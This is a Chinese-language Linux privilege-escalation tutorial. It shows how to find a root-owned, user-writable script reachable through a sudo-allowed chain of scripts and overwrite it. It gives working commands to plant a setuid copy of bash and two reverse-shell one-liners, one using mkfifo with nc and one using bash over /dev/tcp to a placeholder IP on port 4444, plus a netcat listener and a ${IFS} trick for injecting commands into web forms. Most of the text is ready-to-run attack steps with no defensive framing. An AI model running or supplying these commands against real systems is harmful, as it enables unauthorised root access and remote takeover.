 # 以普通用户登入后，先sudo -l

看看有什么具有root权限、且普通用户可以写入的脚本

例：A.sh

该类脚本普通用户是启动不了的，但可以通过链式脚本启动

 

再看看有什么链式脚本可以启动A.sh

例：

存在脚本B.sh，其内部为：
```
#!/usr/bin/perl

system("sh", "/etc/A.sh");
```

而一般B类脚本普通用户可以免密启动，但不能写入

即可以通过/usr/bin/perl来启动B脚本，然后B脚本又会启动A脚本

 

A、B脚本对于普通用户一般为：

　　A可以写入且具有root权限，但不可执行

　　B可以免密执行但不可写入

 

所以最重要的是找到这条链，并修改A脚本，最后执行B脚本

## 在找到A脚本后就可以通过两种方法来提取：

### 1.修改脚本来切换shell获取root权限的方法：

原理：

一般/bin/bash是具有root权限，而且普通用户不能启动，

故将其复制为/tmp/bash，这是允许用户启动的shell

这样一旦用户运行脚本/tmp/bash则会拥有root的权限

接着用户就可以运行/tmp/bash来获取root权限

 

操作：

1.先将命令写入A脚本
```
echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > /../../A.sh 
```

2.以sudo执行B脚本

可以通过很多的方法启动

用sudo -l里允许的链式脚本文件或程序启动脚本

3.切换shell，获取root权限
```
cd /tmp
./bash -p
```


### 2.修改脚本建立一个反弹shell获取root权限的方法

原理：

运行脚本，脚本自动执行内置命令

然后就会反弹一个shell给本地机

本地机预先监听就可以连入

 

操作：

1.先将命令写入A脚本
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc your_ip 4444 >/tmp/f

4444为将要监听的端口
```

或是该命令也行
```
bash -i >&/dev/tcp/your_ip/4444 0>&1

4444为监听端口
可以用${IFS}来代替一个空格（用于网页command输入）
```

2.在本地机上开启监听
```
nc -lnvp 4444
```

3.以sudo运行B脚本

运行完连入后即为root用户

